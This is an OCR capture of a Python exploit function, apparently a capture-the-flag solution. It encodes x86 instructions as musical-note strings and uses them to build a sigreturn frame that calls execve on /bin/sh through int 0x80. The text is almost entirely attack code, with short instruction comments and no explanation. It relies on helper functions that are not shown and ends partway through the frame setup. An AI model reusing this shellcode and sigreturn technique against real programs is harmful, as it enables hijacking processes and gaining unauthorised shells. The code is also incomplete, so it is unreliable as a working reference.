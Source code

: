 ```python
"""

def exploit():   
  notes = []

  # move stack past the welcome message setup edi so we can xor
  notes += ["D6", "D6"] * 58 # inc esp; ss inc esp; ss
  notes += ["F6", "F6"] * 32 # inc esi; ss inc esi; ss
  notes += ["G6", "G6"] * 6 # inc edi; ss inc edi; ss


  # setup stack for sigreturn
  # gs
  notes += ["A3", "F4"] # inc ecx; xor eax,DWORD PTR [esi+0x34]
  notes += ["A1", "F4"] # inc ecx; xor DWORD PTR [esi+0x34],eax
  notes += ["A3", "G0"] # inc ecx; xor eax,DWORD PTR [edi+0x30]
  set_esi_63(notes)
  # notes += ["A3", "G0"] # inc ecx; xor eax,DWORD PTR [edi+0x30]


  # stack for nulls
  notes += ["A3", "F4"] # inc ecx; xor eax,DWORD PTR [esi+0x34]
  for x in range(7):
    notes += ["A1", "F4"] # inc ecx; xor DWORD PTR [esi+0x34],eax
    notes += ["F6", "F6"]*2 # inc esi; ss inc esi; ss

  # stack for ebx to /bin/sh
  set_esi_40404747(notes)

  # set nulls
  for x in range(2):
    notes += ["A1", "F4"] # inc ecx; xor DWORD PTR [esi+0x34],eax
    notes += ["F6", "F6"]*2 # inc esi; ss inc esi; ss

  # stack for eax to 0xb
  notes += ["A1", "F4"] # inc ecx; xor DWORD PTR [esi+0x34],eax
  notes += ["A3", "G0"] # inc ecx; xor eax,DWORD PTR [edi+0x30]
  set_esi_00000b(notes)


  # stack for nulls
  notes += ["A3", "G0"] # inc ecx; xor eax,DWORD PTR [edi+0x30]
  for x in range(2):
    notes += ["A1", "F4"] # inc ecx; xor DWORD PTR [esi+0x34],eax
    notes += ["F6", "F6"]*2 # inc esi; ss inc esi; ss


  # stack for eip to int 0x80
  notes += ["A1", "F4"] # inc ecx; xor DWORD PTR [esi+0x34],eax
  notes += ["A3", "G0"] # inc ecx; xor eax,DWORD PTR [edi+0x30]
  set_esi_60606666(notes)
  notes += ["A3", "G0"] # inc ecx; xor eax,DWORD PTR [edi+0x30]

  # stack for cs
  notes += ["A1", "F4"] # inc ecx; xor DWORD PTR [esi+0x34],eax
  notes += ["A3", "G0"] # inc ecx; xor eax,DWORD PTR [edi+0x30]
  set_esi_23(notes)

  # stack for nulls
  notes += ["A3", "G0"] # inc ecx; xor eax,DWORD PTR [edi+0x30]
  for x in range(2):
    notes += ["A1", "F4"] # inc ecx; xor DWORD PTR [esi+0x34],eax
    notes += ["F6", "F6"]*2 # inc esi; ss inc esi; ss
```